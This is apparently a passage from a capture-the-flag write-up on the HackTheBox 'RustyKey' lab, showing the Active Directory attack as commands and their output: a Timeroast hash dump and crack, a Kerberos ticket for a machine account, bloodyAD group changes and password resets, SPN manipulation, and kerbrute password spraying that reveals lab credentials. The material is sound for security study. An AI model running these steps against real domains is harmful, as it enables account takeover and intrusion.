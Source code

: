     1121:$sntp-ms$0fe9b13cb02a6f6d5741fd95285c6be4$1c0111e900000000000a05e64c4f434cec15da3e97733226e1b8428bffbfcd0aec15e20617731098ec15e20617734648
    1120:$sntp-ms$b7b2d2625ff186d0b597494cbb3d5fef$1c0111e900000000000a05e64c4f434cec15da3e97515a65e1b8428bffbfcd0aec15e20617513221ec15e206175171e2
    1122:$sntp-ms$2e26fe0be6a540fe01d3c73dfdd69de2$1c0111e900000000000a05e64c4f434cec15da3e977a2489e1b8428bffbfcd0aec15e206177a02fbec15e206177a3550
    1123:$sntp-ms$517535e59f8d2b8b9016d0a2786198a9$1c0111e900000000000a05e64c4f434cec15da3e97c02cabe1b8428bffbfcd0aec15e20617c00ccaec15e20617c03bc4
    1124:$sntp-ms$d3531b1edd859379f5d105e5895d21f1$1c0111e900000000000a05e64c4f434cec15da3e944e12b2e1b8428bffbfcd0aec15e206182503c5ec15e20618252db6
    1125:$sntp-ms$4ff1451caf60d9d05efdbd1b0748751b$1c0111e900000000000a05e64c4f434cec15da3e9651d5b5e1b8428bffbfcd0aec15e2061a289621ec15e2061a2904dc
    1126:$sntp-ms$7e4e913d40d0be676c8bf5c35610f149$1c0111e900000000000a05e64c4f434cec15da3e9652fcfde1b8428bffbfcd0aec15e2061a29e0a4ec15e2061a2a19ae
    1127:$sntp-ms$84cdba7964a96d8f5fc9e492eb9f3d3c$1c0111e900000000000a05e64c4f434cec15da3e967d607de1b8428bffbfcd0aec15e2061a5440c9ec15e2061a547edd



```python
!python Timeroast/extra-scripts/timecrack.py timeroast.crack bigwords.txt 
```

    [+] Cracked RID 1125 password: Rusty88!
    
    1 passwords recovered.


It's worth noting there that the newest version of hashcat can crack this wayyyy faster.


```python
!echo "Rusty88!" | KRB5_CONFIG=./krb5.conf KRB5CCNAME='./it-computer3.ccache' kinit it-computer3$
```

    Password for it-computer3$@RUSTYKEY.HTB: 
    Warning: encryption type arcfour-hmac used for authentication is deprecated and will be disabled


At this point I'm finally using kerbrute witha  password list I'm maintaining locally. I'm spending a lot of time working through "what can dd.ali do" but it's all unnecessary because it-computer can do everything we actually need. This may be unintentional as I think it's intended for bb.morgan to do some work and maybe use dd.ali as a pivot for the impersonation, but whatever.

```sh
bloodyAD --host dc.rustykey.htb -d rustykey.htb -k add groupMember "HelpDesk" 'IT-Computer3$'
[+] IT-Computer3$ added to HelpDesk

bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password bb.morgan Password1234!
[+] Password changed successfully!

bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password gg.anderson Password1234!
[+] Password changed successfully!

bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password dd.ali Password1234!
[+] Password changed successfully!

KRB5CCNAME=./dd.ali.ccache kinit dd.ali

KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set object dd.ali servicePrincipalName -v http/fakeservice
[+] dd.ali's servicePrincipalName has been updated

 kerbrute -domain rustykey.htb -users users.txt -passwords bigwords.txt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Valid user => Administrator
[*] Blocked/Disabled user => Guest
[*] Blocked/Disabled user => krbtgt
[*] Stupendous => rr.parker:8#t5HE8L!W3A
```